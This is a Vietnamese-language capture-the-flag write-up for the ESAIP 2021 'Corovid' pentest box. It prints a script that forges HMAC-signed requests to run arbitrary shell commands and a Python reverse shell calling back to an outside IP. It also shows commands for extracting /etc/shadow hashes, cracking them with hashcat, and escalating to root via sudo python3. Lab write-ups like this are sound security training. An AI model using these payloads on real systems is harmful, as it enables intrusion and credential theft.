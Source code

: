 ```yaml
---
title: "CTF ESAIP HACK CHALLENGE 4th edition - 29 Mai 2021 Final Writeup Box Pentest Corovid"
date : 2021-06-03T00:00:00+08:00
tags: ["CTF", "France", "Box", "ESAIP"]
authors: ["kn"]
cover: "https://ctf.esaip.org/wp-content/uploads/2021/05/Bandeaux-partenaires-CTF-2021-2.jpg"
description: "ESAPI 20/5/2021 writeup"
showFullContent: false
---
```



## Motivation

Vào một buổi trưa nắng nóng khi dịch bệnh tràn lan, mình có nhận được tin nhắn thử "xoạc" 1 cuộc thi [CTF](https://ctf.esaip.org/) do ESAIP École d'Ingénieurs tổ chức. Đây là kì thi CTF đầu tiên cũng như lần đầu tiên mình viết write up nên cũng chỉ hi vọng lót đường. 

Ở đây thì có một bài về Box pentest rất thú vị là Corovid (nó ngốn của mình 3 tiếng mới xong :( ) 

Challage web được xây dựng bằng Python ở back-end qua command `nmap -sC -sV -A -p- <ip>`. Các request được gửi từ phía Front-End đến Back-End theo các khoảng thời gian đều đặn bằng lệnh shell để để lấy kết quả mới nhất về số ca Covid trên toàn thế giới. Các request cũng đã được ký ở phía Front-End.

![Nmap scan](nmap.png)

Request Sample:

```
GET /get-last-results?
shell=cat%20/tmp/.corovid_value.txt&auth_ts=1620764393&auth_sign=d643a98d4
ce0b407beacdf750a55cff8b371d207bfbec0ae0667c1aa48b2f33a HTTP/1.1
```

![Client code](scr1.png)
![Client code](src2.png)

Đối với những bài có sourcecode sẵn như thế này, thì mình thường lướt sơ và hiểu toàn bộ cấu trúc của source trước khi làm. Sau khi xem toàn bộ source thì mình phát hiện một số điều đáng nghi.

Code khá là lộn xộn nhưng có thể dễ dàng thấy được function y() dùng để tạo 1 request tới back-end với mẫu như ở trên. Hơn nữa, bằng cách đặt một breakpoint tại lúc tạo chữ kí với `HMAC256` thì chúng ta có thể thấy được request sẽ kèm 1 shell command tới sever để query số ca nhiễm covid ( ở đây là `cat /tmp/.corovid_value.txt`)

Pattern khi kí sẽ gồm 
```javascript
HmacSHA256("{timestamp 10 digits}:{commande unix}", "You are a hacker")
```

vậy nên dễ dàng có thể tái tạo lại một signature khác kèm theo câu lệnh mình mong muốn cùng với timestamp, dưới đây là một ví dụ:


```python
command = input("command : ")
timestamp = str(int(datetime.datetime.now().timestamp()))
sign = hmac.new("You are a hacker".encode(), (timestamp + ":" + command).encode(), hashlib.sha256).hexdigest()
parameters = {
 "shell":command,
 "auth_ts":timestamp,
 "auth_sign":sign
}
rep = requests.get(url,params=parameters)
print(rep.text)
```

Vì máy chủ web sử dụng python 3 (được phát hiện trong quá trình nhận dạng với nmap), có thể thông qua tập lệnh tạo request với chữ ký hợp lệ để thực hiện trình reverse shell với payload ( có thể đọc thêm về reverse shell payload ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python))

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("51.38.123.73",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

Tada! Đã có thể login vào shell với user là `pfizer`.
Mình có thử xem trong `/home/pfizer` có 1 file `flag.txt` nhưng đây không phải thứ cần tìm ( đời đâu dễ như thế :( )

```bash
ls -la /root
```

thì có thể thấy `/root/flag.txt` ( mình đoán đây mới là thứ cần tìm ).

Bằng cách hiển thị nội dung của /etc/passwd, chúng ta thấy rằng có 3 người dùng có shell:

* root
* pfizer
* astrazeneca

Hơn nữa, ở trong `/home/pzfizer` có thể dễ dàng thấy web server được lưu ở đây và được chạy dưới user `pfizer` bằng cách list tất cả process với command `ps aux`

![ps aux with user pfizer](psaux.png)

Một điều lạ là chúng ta chỉ có thể thấy các process của người dùng hiện tại là pfizer.
Mình thử liệt kê tất cả các file thuộc quyền sở hữu ứng với các `user` bằng command 
```bash
ls -laR / 2>/dev/null | grep $USER
```

Chúng tôi thấy rằng một tệp ẩn có tên `.bckp_2021-XX-XX_XX:XX.zip` trong thư mục /srv trong đó chủ sở hữu là `root` có thể đọc được bởi group `pfizer`.

![list file by owner](ls.png)

Unzip nó ra thì có thể thấy một bản backup chứa tất cả các hash của system password.

![unzip](image-015.png)
![unzip](image-016.png)

```bash
grep -rn ENCRYPT_METHOD /etc/login.defs

265:# This variable is deprecated. You should use ENCRYPT_METHOD.
279:ENCRYPT_METHOD SHA512
282:# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
```

User pfizer chỉ dùng để run web service nên mình cần quan tâm tới user `root` và `astrazeneca`

```bash
tail shadow | grep "astrazeneca" | awk -F':' '{print $2}'
```

![hash password user astrazeneca](image-018.png)

Crack hash password thì mình dùng `hashcat` với wordlist là [rockyou](https://github.com/brannondorsey/naive-hashcat/)

Tada! Password là `monsauveur`

Lúc này thì khá đơn giản rồi, chỉ cần check quyền sudo execution của user với `sudo -l` và có thể thấy là user `astrazeneca` có thể chạy python3 mà không cần password :v 

**Exploitation**

```bash
sudo /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Flag](image-023.png)

Mình có làm thêm được 2 bài Stegano nữa nhưng mà dễ quá nên không write up :v 
